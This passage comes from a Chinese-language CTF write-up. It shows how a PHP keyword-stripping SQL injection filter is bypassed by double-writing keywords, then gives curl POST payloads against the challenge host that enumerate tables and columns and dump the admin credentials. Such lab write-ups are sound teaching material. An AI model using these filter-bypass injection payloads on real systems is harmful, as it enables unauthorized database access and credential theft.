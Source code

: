 ```php
mysql_close($con);
?>
```

然后再次通过about.php文件包含获得antiinject的源码。antiinject函数的作用是将一些字符串替换为空字符，完全可以用一种叫做“双写”的技巧绕过；或者对于`$keyword`里面排在空格` `之前的字符串插入一个空格` `：
```php
<?php
function antiinject($content){
  $keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
  $info=strtolower($content);
  for($i=0;$i<=count($keyword);$i++){
    $info=str_replace($keyword[$i], '',$info);
  }
  return $info;
}
?>
```

开心！sql注入发现！记录一下手工注入的过程：
```shell
# 有多少列？4列
# quote("25252\tun ion\tsel ect\t1,2,3,4")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2C2%2C3%2C4'
# 当前schema的名字是？sae-exploitblog
# 好像获得schema名字也没啥用
# quote("25252\tun ion\tsel ect\t1,database(),3,4")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Cdatabase%28%29%2C3%2C4'
# 遍历表名。一共有4张表 admin, filename, hackerip, message
# quote("25252\tun ion\tsel ect\t1,table_nanameme,3,4\tfr om\tinfoorrmation_schema.tables\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t0")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ctable_nanameme%2C3%2C4%09fr%20om%09infoorrmation_schema.tables%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%090'
# 遍历列名。一共有14列
# admin(id, username, userpass)
# filename(id, name, path)
# hackerip(id, qq, mail, ip)
# message(id, nice, say, display)
# quote("25252\tun ion\tsel ect\t1,table_nanameme,column_nanameme,4\tfr om\tinfoorrmation_schema.columns\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t0")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ctable_nanameme%2Ccolumn_nanameme%2C4%09fr%20om%09infoorrmation_schema.columns%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%090'

# 遍历 admin 表
# admin 102 117 99 107 114 117 110 116 117
# quote("25252\tun ion\tsel ect\t1,usernanameme,userppassass,4\tfr om\tadadminmin\tlimit\t1\toffset\t0")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Cusernanameme%2Cuserppassass%2C4%09fr%20om%09adadminmin%09limit%091%09offset%090'

# 密码比较奇怪，看一下是什么类型的？
# quote("25252\tun ion\tsel ect\t1,column_type,column_nanameme,4\tfr om\tinfoorrmation_schema.columns\twhere\ttable_schema\tin\t(database())\tlimit\t1\toffset\t2")
curl -X POST -H 'User-Agent: Xlcteam Browser' http://cms.nuptzj.cn/so.php -d 'soid=25252%09un%20ion%09sel%20ect%091%2Ccolumn_type%2Ccolumn_nanameme%2C4%09fr%20om%09infoorrmation_schema.columns%09where%09table_schema%09in%09%28database%28%29%29%09limit%091%09offset%092'

# 密码 fuckruntu 我怎么感觉你在骂人
# ''.join(map(lambda x: chr(int(x)), '102 117 99 107 114 117 110 116 117'.split()))
```